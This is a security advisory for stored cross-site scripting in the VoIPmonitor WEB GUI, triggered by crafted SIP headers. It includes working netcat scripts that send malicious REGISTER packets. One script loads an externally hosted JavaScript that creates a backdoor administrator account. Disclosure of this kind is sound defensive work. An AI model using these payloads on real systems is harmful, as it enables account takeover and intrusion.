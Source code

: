 # VoIPmonitor WEB GUI vulnerable to Cross-Site Scripting via SIP messages

- Fixed versions: VoIPmonitor WEB GUI 24.56
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2021-02-voipmonitor-gui-xss
- VoIPmonitor Security Advisory: none, changelog references fixes at https://www.voipmonitor.org/changelog-gui?major=5
- Tested vulnerable versions: 24.53, 24.54, 24.55
- References: CVE-2021-1000004
- Timeline:
    - Report date: 2021-02-10
	- Triaged: 2021-02-12
	- First fixes available: 2021-02-15
    - Fixes to actually address XSS: 2021-02-22
	- VoIPmonitor release with fix: 2021-02-22
	- Enable Security advisory: 2021-03-15

## Description

Multiple Cross-Site Scripting vulnerabilities were observed in the VoIPmonitor WEB GUI. These vulnerabilities can be exploited by sending SIP messages towards hosts monitored by VoIPmonitor. During our tests, the following areas were affected:

- "CDR" section
    - listing view via the `User-Agent`, `From` and `Call-ID` headers
    - Share CDR

- "Active calls" section
    - listing view via the `User-Agent` and `From` headers

- "SIP MESSAGES" section
    - listing view via the `User-Agent` and `From` headers
    - detailed record view via the `User-Agent`, `Call-ID` and `Content-Type` headers

- "SIP REGISTER" section
    - listing view via the `User-Agent` header, and `Authorization` username

- "SIP Opt., Subsc., Notify" section
    - listing view via the `User-Agent` header
    - detailed record view via `Call-ID` and caller name

- "Live sniffer" section
    - listing view via the `Call-ID`

## Impact

Abuse of this vulnerability allows attackers to perform operations on behalf of VoIPmonitor WEB GUI users, hijack sessions or create arbitrary administrative accounts in the WEB GUI.

Due to the nature of the cross-site scripting vulnerability, the attacker does not need authentication to exploit this vulnerability. However, to trigger the injected malicious JavaScript, an administrator has to visit to one of the GUI screens: "CDR", "SIP MESSAGES", "SIP REGISTER" or "SIP Opt., Subsc., Notify".

## How to reproduce the issue

In this section we will demonstrate how to abuse this vulnerability via the REGISTER message.

Run the following bash script, replacing the target (`demo.sipvicious.pro`) with the hostname/IP of a machine that is being monitored by VoIPmonitor:

```bash
payload="REGISTER sip:demo.sipvicious.pro SIP/2.0\r\n"
payload+="Via: SIP/2.0/UDP 192.168.1.119:46896;rport;branch=z9hG4bK-X\r\n"
payload+="Max-Forwards: 70\r\n"
payload+="From: <sip:002@demo.sipvicious.pro>;tag=ZB1fPjdIHA6RmaNw\r\n"
payload+="To: <sip:002@demo.sipvicious.pro>\r\n"
payload+="Call-ID: C15AfnWADaCSBH4O\r\n"
payload+="CSeq: 1 REGISTER\r\n"
payload+="Contact: <sip:002@192.168.1.119:48760;transport=udp>\r\n"
payload+="User-Agent: <img src=a onerror=alert(1)>\r\n"
payload+="Content-Type: text/plain\r\n"
payload+="Content-Length: 0\r\n\r\n"
echo -e -n $payload | nc -u demo.sipvicious.pro 5060
```

Then browse to the "SIP REGISTER\failed" section and observe that an alert box with value `1` is shown.

![XSS via failed REGISTER message](screenshots/register-failed-alert.png)

To demonstrate a more complex and dangerous example, host the following JavaScript file on a public facing web server and name it `voipm-xss.js`.

```javascript
var username='h3x0r';
var password='h3x0r-l33t-passwd';

$.post('php/model/sql.php', {
    task: 'CREATE',
    module: 'user_admin',
    taskParams: JSON.stringify({
        "keyField": "id",
        "data": {
          "username": username,
          "name": username,
          "password": password,
          "delete2fa_sec": 0,
          "missing_sec": "not defined",
          "req_2fa": false,
          "email": "",
          "is_admin": true,
        }
      }),
    username: username ,
    name: username ,
    password: password ,
    delete2fa_sec: '0' ,
    email: '' ,
    is_admin: 'on' ,
    can_audit: '0' ,
    note: '' ,
    blocked_reason: '' ,
    max_bad_login_attempt: '' ,
    password_expiration_days: '' ,
    enable_login_ip: '' ,
    ip: '' ,
    number: '' ,
    domain: '' ,
    vlan: ''}
);
```

Then run the following bash script by replacing the script URL to the hosted JavaScript file:

```bash
JSURL="//h3x.fun/voipmonitor/xss.js"

payload='REGISTER sip:demo.sipvicious.pro SIP/2.0\r\n'
payload+='Via: SIP/2.0/UDP 192.168.1.119:46896;rport;branch=z9hG4bK-X\r\n'
payload+='Max-Forwards: 70\r\n'
payload+='From: <sip:002@demo.sipvicious.pro>;tag=ZB1fPjdIHA6RmaNw\r\n'
payload+='To: <sip:002@demo.sipvicious.pro>\r\n'
payload+='Call-ID: C15AfnWADaCSBH4O\r\n'
payload+='CSeq: 1 REGISTER\r\n'
payload+='Contact: <sip:002@192.168.1.119:48760;transport=udp>\r\n'
payload+='User-Agent: <img src=a onerror="'
payload+='var d=document,s=d.createElement`script`;'
payload+="s.src='$JSURL',"
payload+='d.querySelector`p`.appendChild(s)">\r\n'
payload+='Content-Type: text/plain\r\n'
payload+='Content-Length: 0\r\n\r\n'
echo -e -n $payload | nc -u demo.sipvicious.pro 5060
```

Browse to the "SIP REGISTER\failed" screen, refreshing the listing if required, and browse to the "Users & Audit\Users" screen. Notice that a new user has been created.

![JavaScript injected via User-Agent, to create backdoor Admin account](screenshots/register-failed-script-injection.png)

![Admin account created via XSS](screenshots/admin-created-via-xss.png)

Same exercise can be done against the other affected screens, including the CDR record listing.

## Solution and recommendations

To address this issue, we recommend upgrading to the latest fixed version of VoIPmonitor GUI.

We recommended the following to the vendor:

> Values that are user controlled should be correctly encoded before being rendered in the browser. Additionally, JSON output should have the `Content-Type` header of JSON rather than `text/html`.

> These vulnerabilities seem to exist throughout the whole web application so we suggest that a thorough exercise should be carried out to identify any other potential Cross-Site scripting issues in sections which have not been identified in our report.

## Acknowledgements

Enable Security would like to thank Martin Vit and the developers at VoIPmonitor for the very quick response and fixing this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

